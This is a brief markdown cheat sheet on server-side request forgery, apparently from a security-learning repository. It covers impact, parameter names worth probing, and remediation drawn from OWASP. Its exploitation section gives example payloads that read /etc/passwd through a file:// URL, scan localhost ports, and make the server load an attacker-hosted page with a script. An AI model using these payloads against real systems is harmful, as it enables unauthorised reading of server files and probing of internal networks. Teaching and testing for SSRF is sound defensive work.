 # 🔀 SSRF (Server Side Request Forgery)

SSRF refers to an attack where an attacker is able to send crafted request from vulnerable web application.

Attacker use parameters used in web application to control request from vulnerable server.
e.g:. `http://websitename.com/?parameter=http://anotherwebsite.com` So server is making request behalf of attacker.

## Impact 

- Bypass ip whitelisting
- Bypass host based authentication
- Scan the internal network
- Abuse of vulnerable website to blacklist 

## 🔎 How to Find

Find any parameter that may have some kind of external interaction or they can interact to external domain.

Example: `http://example.com/profile/php?uri=http://externalwebsite.com `

## Possible Related parameter for SSRF

```
| dest | redirect | uri | path | continue | url | window | next | data | reference | site | html | val | validate 
| domain | callback | return | page | view | dir | show | file | document | folder | root | path | pg | style 
| pdf | template | php_path | doc | feed | host | port | to | out | navigation open result
```

## Exploitation

1. Read file from the server: `http://example.com/profile?file=file:///../etc/passwd`  (here **../etc/passwd** is payload. replace with other payload)

2. Scan internal network open ports: `http://example.com/profile?file=http://localhost:21`  (here **21** is port. change one by one)

3. SSRF through RFI: `http://example.com/profile?file=https://yourwebsite.com/test.html`  (Create malicioud file **test.html** with contain this ` <script>alert(1)</script> ` script and host this file at server.

## ⛑️ Remediation
1. From Application layer:

 - Sanitize and validate all client-supplied input data
 - Enforce the URL schema, port, and destination with a positive allow list
 - Do not send raw responses to clients
 - Disable HTTP redirections
 - Be aware of the URL consistency to avoid attacks such as DNS rebinding and “time of check, time of use” (TOCTOU) race conditions

Do not mitigate SSRF via the use of a deny list or regular expression. Attackers have payload lists, tools, and skills to bypass deny lists.

2. From Network layer

 - Segment remote resource access functionality in separate networks to reduce the impact of SSRF.
 - Enforce “deny by default” firewall policies or network access control rules to block all but essential intranet traffic.
    Hints:
    ~ Establish an ownership and a lifecycle for firewall rules based on applications.
    ~ Log all accepted and blocked network flows on firewalls (see A09:2021-Security Logging and Monitoring Failures).

3. Additional Measures to consider:

 - Don't deploy other security relevant services on front systems (e.g. OpenID). Control local traffic on these systems (e.g. localhost)
 - For frontends with dedicated and manageable user groups use network encryption (e.g. VPNs) on independant systems to consider very high protection needs


## 🔗 Refrence 

- https://portswigger.net/web-security/ssrf
- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
